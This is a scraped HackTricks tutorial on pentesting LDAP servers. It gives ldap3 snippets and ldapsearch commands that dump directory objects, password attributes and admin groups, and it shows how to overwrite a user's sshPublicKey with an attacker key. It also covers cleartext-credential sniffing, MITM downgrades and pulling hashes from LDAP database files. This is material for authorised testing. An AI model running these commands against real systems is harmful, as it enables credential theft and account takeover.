

389undefined 636undefined 3268undefined 3269 - Pentesting LDAP - HackTricks

#

Basic Information

Extracted from: https://searchmobilecomputing.techtarget.com/definition/LDAP​

LDAP (Lightweight Directory Access Protocol) is a software protocol for enabling anyone to locate organizations, individuals, and other resources such as files and devices in a network, whether on the public Internet or on a corporate intranet. LDAP is a "lightweight" (smaller amount of code) version of Directory Access Protocol (DAP).

An LDAP directory can be distributed among many servers. Each server can have a replicated version of the total directory that is synchronized periodically. An LDAP server is called a Directory System Agent (DSA). An LDAP server that receives a request from a user takes responsibility for the request, passing it to other DSAs as necessary, but ensuring a single coordinated response for the user.

An LDAP directory is organized in a simple "tree" hierarchy consisting of the following levels:

- The root directory (the starting place or the source of the tree), which branches out to
- Countries, each of which branches out to
- Organizations, which branch out to
- Organizational units (divisions, departments, and so forth), which branches out to (includes an entry for)
- Individuals (which includes people, files, and shared resources such as printers)

**Default port:** 389 and 636(ldaps). Global Catalog (LDAP in ActiveDirectory) is available by default on ports 3268, and 3269 for LDAPS.

Copy

1PORT STATE SERVICE REASON
2389/tcp open ldap syn-ack
3636/tcp open tcpwrapped

#

Basic Enumeration

##

Manual

You can try to **enumerate a LDAP with or without credentials using python**: `pip3 install ldap3 `

First try to **connect without **credentials:

Copy

4>>>  import ldap3

5>>> server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =636, use_ssl = True)

6>>> connection = ldap3.Connection(server)
7>>> connection.bind()
8True
9>>> server.info

If the response is `True ` like in the previous example, you can obtain some **interesting data** of the LDAP (like the **naming context **or** domain name**) server from:

Copy

10>>> server.info
11DSA info (from DSE):
12Supported LDAP versions: 3
13Naming contexts:
14dc=DOMAIN,dc=DOMAIN

Once you have the naming context you can make some more exciting queries. This simply query should show you all the objects in the directory:

Copy

15>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')

16True
17>> connection.entries
Or **dump **the whole ldap:

Copy

18>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')

19True
20>>> connection.entries

##

Automated

Using this you will be able to see the **public information **(like the domain name)**:**

Copy

nmap -n -sV --script "ldap* and not brute"  <IP>  #Using anonymous credentials

#

Write data

Note that if you can modify values you could be able to perform really interesting actions. For example, imagine that you **can change the "sshPublicKey" information** of your user or any user. It's highly probable that if this attribute exist, then **ssh is reading the public keys from LDAP**. If you can modify the public key of a user you **will be able to login as that user even if password authentication is not enabled in ssh**.

Copy

22>>>  import ldap3
23>>> server = ldap3.Server('x.x.x.x', port =636, use_ssl = True)

24>>> connection = ldap3.Connection(server, 'uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN', 'PASSWORD', auto_bind=True)

25>>> connection.bind()
26True
27>>> connection.extend.standard.who_am_i()
28u'dn:uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN'

29>>> connection.modify('uid=USER,ou=USERS,dc=DOMAINM=,dc=DOMAIN',{'sshPublicKey':  [(ldap3.MODIFY_REPLACE, ['ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHRMu2et/B5bUyHkSANn2um9/qtmgUTEYmV9cyK1buvrS+K2gEKiZF5pQGjXrT71aNi5VxQS7f+s3uCPzwUzlI2rJWFncueM1AJYaC00senG61PoOjpqlz/EUYUfj6EUVkkfGB3AUL8z9zd2Nnv1kKDBsVz91o/P2GQGaBX9PwlSTiR8OGLHkp2Gqq468QiYZ5txrHf/l356r3dy/oNgZs7OWMTx2Rr5ARoeW5fwgleGPy6CqDN8qxIWntqiL1Oo4ulbts8OxIU9cVsqDsJzPMVPlRgDQesnpdt4cErnZ+Ut5ArMjYXR2igRHLK7atZH/qE717oXoiII3UIvFln2Ivvd8BRCvgpo+98PwN8wwxqV7AWo0hrE6dqRI7NC4yYRMvf7H8MuZQD5yPh2cZIEwhpk7NaHW0YAmR/WpRl4LbT+o884MpvFxIdkN1y1z+35haavzF/TnQ5N898RcKwll7mrvkbnGrknn+IT/v3US19fPJWzl1/pTqmAnkPThJW/k= badguy@evil'])]})

Example taken from: https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/​

#

Clear text credentials

If LDAP is used without SSL you can **sniff credentials in plain text** in the network.

Also, you can perform a **MITM **attack in the network** between the LDAP server and the client.** Here you can make a** Downgrade Attack** so the client with use the **credentials in clear text** to login.

**If SSL is used** you can try to make **MITM **like the mentioned above but offering a** false certificate**, if the **user accepts it**, you are able to Downgrade the authentication method and see the credentials again.

#

Valid Credentials

If you have valid credentials to login into the LDAP server, you can dump all the information about the Domain Admin using:

​[ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)​

Copy

30pip3 install ldapdomaindump

31ldapdomaindump <IP>  [-r <IP>] -u '<domain>\<username>' -p '<password>'  [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]

##

​[Brute Force](https://book.hacktricks.xyz/brute-force#ldap)​

##

Manual

Check null credentials or if your credentials are valid:

Copy

32ldapsearch -x -h <IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"

33ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"

Copy

34## CREDENTIALS NOT VALID RESPONSE
35search: 2
36result: 1 Operations error

37text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this opera

38 tion a successful bind must be completed on the connection., data 0, v3839

If you find something saying that the "*bind must be completed*" means that the credentials arr incorrect.

You can extract **everything from a domain **using:

Copy

39ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"

40-x Simple Authentication
41-h LDAP Server
42-D My User
43-w My password
44-b Base site, all data from here will be given
Extract **users**:

Copy

45ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"

46#Example: ldapsearch -x -h <IP> -D 'MYDOM\john' -w 'johnpassw' -b "CN=Users,DC=mydom,DC=local"

Extract **computers**:

Copy

ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TDL>"

Extract **my info**:

Copy

ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=<MY NAME>,CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"

Extract **Domain Admins**:

Copy

ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"

Extract **Domain Users**:

Copy

ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"

Extract **Enterprise Admins**:

Copy

ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TDL>"

Extract **Administrators**:

Copy

ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TDL>"

Extract **Remote Desktop Group**:

Copy

ldapsearch -x -h <IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TDL>"

To see if you have access to any password you can use grep after executing one of the queries:

Copy

<ldapsearchcmd...>  |  grep -i -A2 -B2 "userpas"

Please, notice that the passwords that you can find here could not be the real ones...

#

Graphical Interface

You can download a graphical interface with LDAP server here: http://www.jxplorer.org/downloads/users.html​

By default is is installed in:* /opt/jxplorer*

#

Authentication via kerberos

Using `ldapsearch  `you can **authenticate **against **kerberos instead **of via **NTLM **by using the parameter `-Y GSSAPI `

#

POST

If you can access the files where the databases are contained (could be in */var/lib/ldap*). You can extract the hashes using:

Copy

cat /var/lib/ldap/*.bdb |  grep -i -a -E -o "description.*"  |  sort  |  uniq -u

You can feed john with the password hash (from '{SSHA}' to 'structural' without adding 'structural').

##

Configuration Files

- General
    - containers.ldif
    - ldap.cfg
    - ldap.conf
    - ldap.xml
    - ldap-config.xml
    - ldap-realm.xml
    - slapd.conf
- IBM SecureWay V3 server
    - V3.sas.oc
- Microsoft Active Directory server
    - msadClassesAttrs.ldif
- Netscape Directory Server 4
    - nsslapd.sas_at.conf
    - nsslapd.sas_oc.conf
- OpenLDAP directory server
    - slapd.sas_at.conf
    - slapd.sas_oc.conf
- Sun ONE Directory Server 5.1
    - 75sas.ldif